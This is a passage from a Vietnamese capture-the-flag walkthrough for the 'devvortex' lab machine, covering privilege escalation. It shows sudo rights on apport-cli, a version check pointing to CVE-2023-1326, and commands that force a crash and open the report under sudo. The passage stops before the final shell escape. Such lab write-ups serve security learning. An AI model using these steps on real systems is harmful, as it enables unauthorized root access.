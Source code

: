 ### Privilege Escalation

```python
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

apport là một service trong ubuntu dùng để thu thập các thông tin về hệ thống, chi tiết đọc thêm ở [đây](https://github.com/canonical/apport). Kiểm tra phiên bản của apport-cli này

```python
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
```

Sau khi tìm kiếm các lỗ hổng về apport-cli 2.20.11 trên mạng, tôi tìm được [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC)

Đầu tiên tôi sẽ tạo một file crash

```python
logan@devvortex:~$ sleep 30  &
[1] 5471
logan@devvortex:~$ killall -SIGSEGV sleep
logan@devvortex:~$ cd /var/crash/
[1]+  Segmentation fault      (core dumped) sleep 30  (wd: ~)
(wd now: /var/crash)
logan@devvortex:/var/crash$ ll
total 40
drwxrwxrwt  2 root  root   4096 Mar 17 15:50 ./
drwxr-xr-x 13 root  root   4096 Sep 12  2023 ../
-rw-rw-r--  1 logan logan     0 Mar 17 14:04 some_crash_file.crash
-rw-r-----  1 logan logan 30238 Mar 17 15:50 _usr_bin_sleep.1000.crash
logan@devvortex:/var/crash$ 
```

Chạy tiến trình apport-cli với option `-c` để tạo report

```python
logan@devvortex:/var/crash$ sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash 

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
```
